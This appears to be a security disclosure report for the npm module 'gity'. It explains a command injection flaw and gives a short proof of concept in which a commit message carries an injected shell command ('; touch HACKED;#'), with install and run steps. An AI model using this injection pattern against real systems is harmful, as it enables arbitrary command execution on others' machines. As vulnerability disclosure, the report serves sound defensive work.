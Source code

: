 # :bug: Description

The `gity` module is vulnerable against `RCE` and `arbitrary command injection` due to `user-supplied input` formatted inside a command which is going to be executed without proper sanitizations.

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var Git = require('gity');
 
var git = Git()
  .add('*.js')
  .commit('-m "added js files";touch HACKED;#')
  .run();

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i gity # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
